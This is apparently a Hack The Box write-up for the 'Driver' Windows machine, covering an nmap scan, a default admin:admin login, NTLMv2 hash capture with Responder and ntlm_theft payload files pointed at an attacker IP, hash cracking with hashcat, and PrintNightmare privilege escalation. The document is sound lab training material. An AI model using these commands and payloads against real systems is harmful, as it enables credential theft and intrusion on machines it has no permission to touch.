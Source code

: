 ```yaml
---
description: >-
  Driver is an easy windows HTB machine inspired by the recent CVE-2021-1675
  PrintNightmare.
---
```


# Driver

The nmap scans shown that the ports 80, 135 and 445 are open

```
# Nmap 7.91 scan initiated Sat Oct 16 22:47:55 2021 as: /usr/bin/nmap -Pn -T4 --max-retries 1 --max-scan-delay 20 --open -oN nmap/Port_driver.htb.nmap --system-dns --stats-every 1s driver.htb
Nmap scan report for driver.htb (10.10.11.106)
Host is up (0.087s latency).
Not shown: 997 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds

# Nmap done at Sat Oct 16 22:48:02 2021 -- 1 IP address (1 host up) scanned in 7.47 seconds
```

Browsing to the port 80 we got the following prompt:

![](<../.gitbook/assets/image (52).png>)

`admin:admin` works! we got the following portal:

![](<../.gitbook/assets/image (56).png>)

![](<../.gitbook/assets/image (54).png>)

We can try and force a NTLMv2 hash theft. When a Windows user attempts to connect to a SMB server, if the server asks for authentication, the client will automatically provide it unless specifically restricted. The authentication which is sent is in the form of a hash, which can then be cracked to reveal the logged in user’s password. Using [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and responder is easy.

`sudo responder -wrf --lm -v -I tun0`

``![](<../.gitbook/assets/image (53).png>)``

Generate the payload files with the following command:

`ntlm_theft.py — generate all — ip 10.10.14.93 — filename test`

Will result in multiple files generated, I tried several until test.lnk was catched by responder:

![](<../.gitbook/assets/image (55).png>)

Bruteforcing the hash returned the following password:

`hashcat -m 5600 hash.txt -a 3 /usr/share/wordlists/rockyou.txt --status`

``![](<../.gitbook/assets/image (46).png>)``

So we have username and password. Next thing I tried was to enumerate using these credentials without success. Found this link which is almost a writeup, lol: [https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html). So I conf my smb shared and proceded. BTW, to found where is your box `smb.conf` you can just run `testparm`: 

![](<../.gitbook/assets/image (58).png>)

Created the payload:

![](<../.gitbook/assets/image (49).png>)

Executed the python script... and sucess!

![](<../.gitbook/assets/image (48).png>)

![](<../.gitbook/assets/image (51).png>)

![](<../.gitbook/assets/image (57).png>)

rooted.
